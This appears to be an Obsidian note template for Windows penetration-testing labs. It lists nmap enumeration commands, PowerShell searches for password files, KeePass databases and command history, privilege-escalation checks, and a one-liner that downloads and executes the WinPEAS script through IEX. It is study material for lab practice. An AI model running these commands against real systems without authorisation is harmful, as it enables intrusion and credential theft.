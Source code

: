 #show #windows
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_Win_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

# Enumeration

```bash
export hip="";nmap --top-ports 30 $hip
```

```bash
i="$hip";sudo nmap --osscan-guess -A -p- $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html && sudo nmap -sUV --top-ports 100 $i -oN 0_udp_top100.txt
```

> Then, create services templates.

# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `type C:\Users\Administrator\Desktop\proof.txt`
	
##### Users
```powershell
Get-LocalUser
```
Alternative: `net user`
##### Network
```powershell
ipconfig /all; route print; netstat -ano; netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```

##### Interesting files
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -Include *password* -Include proof.txt -Include local.txt -Include sysprep.inf -Include Unattended.xml -File -Recurse -ErrorAction SilentlyContinue; Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue; Get-History; (Get-PSReadlineOption).HistorySavePath | cat - ; 
```
	
##### Home folder
```powershell
Get-ChildItem -Recurse -Path C:\Users\ | select Parent,Name
```
	
Alternative: `dir /B /S /A-D`
##### Advanced
Mounted Volumes: `mountvol`
Devices: `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer`
Drivers: `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"`
Shadow Copy: `vssadmin list shadows`, `mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\`
# PrivEsc
##### Find Working Dir for attack
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	
##### WinPEAS
```bash
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1'); ./linpeash.ps1 -a -r | tee linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`

> I still have to run WinPEAS once and check what additional commands I need to integrate from [[2_loot-privEsc_Windows_Manually]]

##### Windows Exploit Suggester - Next Generation
On target, execute `systeminfo > systeminfo.txt` and transfer file. On kali, do
```bash
wes --muc-lookup systeminfo.txt
```

Consider [[3_dllHijacking_guide]]

Ways to login as another user:
- If we have access to the GUI -> `RunAs /user:$user cmd`
- User is in group _Remote Desktop Users_ -> RDP
- User is in group _Remote Management Users_ -> WinRM (Better use [evil-winrm](https://github.com/Hackplayers/evil-winrm) from non-interactive shells)
- User has _Log on as a batch job_ right -> Schedule task to execute a program of our choice as this user
- User has active session -> Use PsExec (SysInternals)